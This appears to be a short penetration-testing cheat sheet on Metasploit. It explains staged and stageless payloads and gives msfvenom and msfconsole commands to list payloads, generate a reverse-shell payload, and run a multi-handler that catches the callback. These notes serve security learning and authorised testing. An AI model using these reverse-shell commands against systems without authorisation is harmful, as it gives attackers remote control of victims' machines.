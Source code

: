 ## Payloads

Staged vs Stageless payloads
A staged payload is sent in two parts: a small "stager" that connects back, and then the main payload (the "stage") is sent over that connection. A stageless payload is a single, large, self-contained file that has everything needed to run.


### Finding payloads

Via msfconsole:
```bash
search type:payload platform:windows x64 reverse
search type:payload platform:linux reverse_tcp
```

Via msfvenom:
```bash
msfvenom --list payloads
msfvenom --list payloads | grep windows | grep x64 | grep reverse

msfvenom --list formats
msfvenom --list encoders
```
### Generate a payload

```bash
# Reverse shell
msfvenom -p <PAYLOAD> lhost=<IP> lport=<PORT> -f <FORMAT> -b <BAD_CHARS> -o <FILENAME>
```


## Multi-handler
Setup a multihander to catch a staged callback
```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set lhost <IP>; set lport <PORT>; exploit -j"
```

